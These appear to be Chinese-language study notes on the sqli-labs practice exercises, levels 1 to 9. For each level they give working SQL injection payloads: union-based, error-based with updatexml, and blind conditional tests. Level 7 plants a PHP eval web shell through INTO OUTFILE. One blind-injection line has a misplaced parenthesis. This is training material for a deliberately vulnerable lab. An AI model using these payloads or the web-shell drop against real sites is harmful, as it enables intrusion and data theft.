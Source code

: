 # 自动化注入

  半自动化注入
    burp suite
    
  全自动
    sqlmap
    定制化脚本

注释：--+ / #（进行编码%23）

----sqli-lab
Less-01
  字符型注入
  单引号
  ?id=1' and 1=2 union select 1,version(),3 %23

Less-02
  数字型注入
  ?id=1 and 1=2 union select 1,version(),3

Less-03
  字符型注入
  单引号加小括号')
  ?id=1') and 1=2 union select 1,2,version() --+

Less-04
  字符型
  ")
  ?id=2") and 1=2 union select 1,2,version() --+

Less-05
  没有回显，有报错
  字符型
  '
  ?id=2' and updatexml(1,concat(0x5e,version(),0x5e),1) --+

Less-06
  没有回显，有报错
  字符型
  "
  ?id=1" and updatexml(1,concat(0x5e,version(),0x5e),1) --+

Less-07
  没有回显，没有报错
  经过代码审计
  字符型注入
  '))
  ?id=2')) union select 1,"<?php @eval(\$_REQUEST[777])?>",3 into outfile 
  "D:\\phpstudy_pro\\www\\show_users.php" --+

Less-08
  没有回显，没有报错，有布尔类型状态
  字符型注入
  '
  半自动化测试 bp 8位
  security

Less-09
  没有回显，没有报错，没有布尔类型状态
  字符型注入，'
  bp
  ?id=2' and if(length(database())=1,select(5),1) --+
  ?id=2' and if(ascii(substr(database(),1,1)=1,select(5),1) --+